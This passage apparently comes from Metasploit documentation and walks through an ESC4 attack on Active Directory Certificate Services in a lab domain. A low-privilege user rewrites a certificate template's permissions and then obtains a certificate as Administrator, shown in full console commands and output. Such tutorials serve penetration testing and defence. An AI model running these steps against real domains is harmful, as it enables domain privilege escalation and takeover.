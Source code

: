 Next, we use the `ad_cs_cert_template` module to update the `ESC4-Test` certificate template. This process first makes a
backup of the certificate data that can be used later. Next, the local certificate template data is read and used to
update the object in Active Directory. The local certificate template data can be modified to set a custom security
descriptor.

```msf
msf6 auxiliary(admin/dcerpc/icpr_cert) > use auxiliary/admin/ldap/ad_cs_cert_template 
msf6 auxiliary(admin/ldap/ad_cs_cert_template) > set RHOSTS 172.30.239.85
RHOSTS => 172.30.239.85
msf6 auxiliary(admin/ldap/ad_cs_cert_template) > set USERNAME normaluser
USERNAME => normaluser
msf6 auxiliary(admin/ldap/ad_cs_cert_template) > set PASSWORD normalpass
PASSWORD => normalpass
msf6 auxiliary(admin/ldap/ad_cs_cert_template) > set CERT_TEMPLATE ESC4-Test
CERT_TEMPLATE => ESC4-Test
msf6 auxiliary(admin/ldap/ad_cs_cert_template) > set ACTION UPDATE 
ACTION => UPDATE
msf6 auxiliary(admin/ldap/ad_cs_cert_template) > set VERBOSE true 
VERBOSE => true
msf6 auxiliary(admin/ldap/ad_cs_cert_template) > run
[*] Running module against 172.30.239.85

[+] Successfully bound to the LDAP server!
[*] Discovering base DN automatically
[*] 172.30.239.85:389 Getting root DSE
[+] 172.30.239.85:389 Discovered base DN: DC=daforest,DC=com
[+] Read certificate template data for: CN=ESC4-Test,CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration,DC=daforest,DC=com
[*] Certificate template data written to: /home/smcintyre/.msf4/loot/20230505083802_default_172.30.239.85_windows.ad.cs.te_593597.json
[*] Parsing SDDL text: D:PAI(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;AU)
[+] The operation completed successfully!
[*] Auxiliary module execution completed
msf6 auxiliary(admin/ldap/ad_cs_cert_template) > 
```

Now that the certificate template has been updated to be vulnerable to ESC1, then we can use the `previous` shortcut
to switch back to the last module and reattempt to issue the certificate. This time, the operation succeeds.

```msf
msf6 auxiliary(admin/ldap/ad_cs_cert_template) > previous 
msf6 auxiliary(admin/dcerpc/icpr_cert) > run
[*] Running module against 172.30.239.85

[+] 172.30.239.85:445 - The requested certificate was issued.
[*] 172.30.239.85:445 - Certificate UPN: Administrator@daforest.com
[*] 172.30.239.85:445 - Certificate stored at: /home/smcintyre/.msf4/loot/20230505083913_default_172.30.239.85_windows.ad.cs_275324.pfx
[*] Auxiliary module execution completed
msf6 auxiliary(admin/dcerpc/icpr_cert) > 
```
